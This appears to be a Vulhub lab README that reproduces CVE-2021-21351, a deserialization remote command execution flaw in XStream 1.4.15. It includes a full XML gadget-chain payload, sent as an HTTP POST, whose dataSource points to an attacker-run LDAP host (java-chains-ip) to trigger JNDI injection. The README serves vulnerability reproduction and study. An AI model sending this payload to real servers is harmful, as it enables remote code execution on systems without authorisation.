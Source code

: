 # XStream Deserialization Remote Command Execution (CVE-2021-21351)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.15 and earlier, blocklists are incomplete and attackers could use `javax.naming.ldap.Rdn$RdnEntry` and `javax.sql.rowset.BaseRowSet` to make an JNDI injection and execute arbitrary commands finally.

Reference links.

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## Vulnerable Environment

Start a Springboot + XStream 1.4.15 server.

```
docker compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

Since the target Java version is higher than 8u191, you need the help of `org.apache.naming.factory.BeanFactory` with EL expression injection to execute arbitrary commands, reference to [this article](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

We use the [Java Chains](https://github.com/vulhub/java-chains) tool for vulnerability replication. Refer to the [Quick Start](https://java-chains.vulhub.org/docs/guide) to launch Java Chains.

Afterwards, according to the image below, select to set the command to execute as `touch /tmp/success`, and generate the JNDI LDAP URL Payload:

![](2.png)

Use the above LDAP URL as the value of `<dataSource>` to construct the POC as follows:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>ldap://java-chains-ip:50389/x</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

It can be seen that `touch /tmp/success` has been successfully executed:

![](3.png)

If something goes wrong with the POC and Java version, the POC have to be modified by changing ``<__overrideDefaultParser>false</__overrideDefaultParser>`` to ``<__useServicesMechanism>false</__useServicesMechanism>``.
